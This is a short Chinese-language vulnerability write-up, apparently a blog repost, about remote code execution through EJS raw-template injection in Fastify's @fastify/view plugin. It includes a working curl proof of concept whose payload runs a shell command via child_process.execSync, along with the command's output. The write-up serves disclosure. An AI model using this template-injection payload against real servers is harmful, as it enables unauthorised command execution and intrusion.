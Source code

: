 #  通过@fastify/view raw 渲染实现远程代码执行   
 TtTeam   2025-05-09 06:07  
  
漏洞摘要  
  
Fastify 的@fastify/view插件允许使用 进行原始模板渲染raw: true。当与EJS和不受信任的用户输入 一起使用时，将导致远程代码执行。  
  
远程代码执行（RCE）  
  
该@fastify/view插件与 EJS 引擎和reply.view({ raw: <user-controlled-string> })相关模式配合使用时，允许任意 EJS 执行。当攻击者能够控制raw传递给视图渲染器的内容时，这会导致远程代码执行 (RCE)。此漏洞源于 Fastify 信任未经任何清理或限制的原始模板字符串，并将其直接传递给 EJS 的compile()方法。  
  
这是实际使用的有效载荷的最小示例：  
  
```
curl -X POST http://localhost:3000/render \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode 'text=<%= require("child_process").execSync("id").toString() %>'
```  
  
  
输出：  
```
uid=1000(nullprophet) gid=1000(nullprophet) groups=... 
```  
  
截屏：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB30emPClKgrAsFyraia5Dfm0CpkVibuecHj3icobiaNoahO7M7icylemRHbAfcks05VJ8fzHu8liarVe4bQ/640?wx_fmt=png&from=appmsg "")  
  
这通过模板逻辑证实了完整的 RCE — 与您的官方示例相匹配（例如reply.view({ raw })）。  
  
这将在服务器上执行任意命令并返回结果。服务器端代码默认不包含此逻辑——它只是将不受信任的输入传递给rawEJS 上下文。  
  
https://github.com/Oblivionsage/fastify-ejs-rce-raw-template-injection  
  
  
  
